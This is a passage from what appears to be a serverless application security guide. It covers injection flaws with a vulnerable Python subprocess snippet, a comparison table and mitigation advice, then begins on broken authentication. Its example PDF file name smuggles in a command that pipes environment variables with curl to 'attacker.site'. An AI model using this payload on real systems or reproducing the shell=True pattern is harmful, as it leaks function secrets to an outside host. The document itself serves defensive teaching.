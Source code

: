 ```python

                pdf_content = subprocess.check_output(cmd, shell=True)
```

The developer of this serverless function assumes that users will provide legitimate PDF file names and does not perform any kind of sanity check on the incoming file name, except for the rudimentary check to make sure the file's extension is indeed '.pdf'. The file name is embedded directly into the shell command. This weakness allows a malicious user to inject shell commands as part of the PDF file name. For example, the following PDF file name, will leak all environment variables of the currently executing function:

```
foobar;env|curl -H "Content-Type: text/plain" -X POST -d @- http://attacker.site/collector #.pdf
```
#### COMPARISON
|DIFFERENTIATING FACTOR|TRADITIONAL APPLICATIONS|SERVERLESS APPLICATIONS|
|----------------------|------------------------|-----------------------|
|Input sources and attack surface for injection-based vulnerabilities|Small set of input sources - injection-based attacks are thoroughly understood|Wide range of event triggers which provide a rich set of input sources and data formats. Injection-based attacks can be mounted in unexpected locations, many of which have yet to be studied properly|
|Injection-based attack surface complexity|Developers, architects and security practitioners are well versed in relevant attack surfaces related to injection-based vulnerabilities. For example - “HTTP GET/POST parameters or headers should never be trusted”|Serverless is still new, many developers, architects and security practitioners still don’t have the required expertise to understand the different attack vectors related to injection-based attacks|
|Security testing for Injection-based attacks|Existing security testing solutions (DAST, SAST, IAST) provide good coverage for detecting injection-based vulnerabilities|Current DAST/SAST/IAST security testing tools are not adapted for testing injection-based vulnerabilities in serverless functions|
Protections against Injection-based attacks|Traditional security protections (Firewalls, IPS, WAF, RASP) provide suitable protection coverage for injection-based attacks|Traditional security protections are not suitable for detecting and preventing injection-based attacks in serverless functions|

#### MITIGATION
- Never trust input or make any assumptions about its validity
- Always use safe APIs that either sanitize or validate user input, or APIs which provide a mechanism for binding variables or parameterizing them for underlying infrastructure (e.g. stored procedures or prepared statements in the case of SQL queries)
- Never pass user input directly to any interpreter without first validating and sanitizing it
- Make sure that your code always runs with the minimum privileges required to perform its task
- If you apply threat modeling in your development lifecycle, make sure that you consider all possible event types and entry points into the system. Do not assume that input can only arrive from the expected event trigger
- Where applicable, use a web application firewall to inspect incoming HTTP/HTTPS traffic to your serverless application (note: keep in mind that application layer firewalls are only capable of inspecting HTTP(s) traffic and will not provide protection on any other event trigger types)

### SAS-2: Broken Authentication
Since serverless architectures promote a microservices-oriented system design, applications built for such architectures may oftentimes contain dozens or even hundreds of distinct serverless functions, each with its own specific purpose.

These functions are weaved together and orchestrated to form the overall system logic. Some serverless functions may expose public web APIs, while others may serve as some sort of an internal glue between processes or other functions. In addition, some functions may consume events of different source types, such as cloud storage events, NoSQL database events, IoT device telemetry signals or even SMS message notifications. 

Applying robust authentication schemes, which provide access control and protection to all relevant functions, event types and triggers is a complex undertaking, which may easily go awry if not done carefully. 
